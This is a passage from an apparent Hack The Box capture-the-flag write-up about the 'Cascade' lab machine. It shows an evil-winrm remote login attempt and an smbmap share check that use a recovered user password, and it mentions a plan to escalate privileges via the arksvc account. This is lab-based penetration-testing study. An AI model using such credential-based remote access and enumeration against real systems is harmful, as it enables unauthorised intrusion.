 	I made a mistake during my first attempt to access the server and did not recover the user flag until the very end. 

	I wrote the wrong domain for Steve's account, and obviously got a denied from kerberos.
```sh
evil-winrm -i casc-dc1.cascade.local\
	-u 's.smith@htb.local' \
	-p sT333ve2
```
![](images/notyet.png)

	Not a big deal!  Cus we needed arksvc to privesc anyway.


---

#### Looking For Arksvc's Password

	First we've confirmed that Steve had access on the Audit$ share.
```sh
smbmap -u s.smith -p sT333ve2 -H casc-dc1.cascade.local 
```
![](images/access_audit.png)
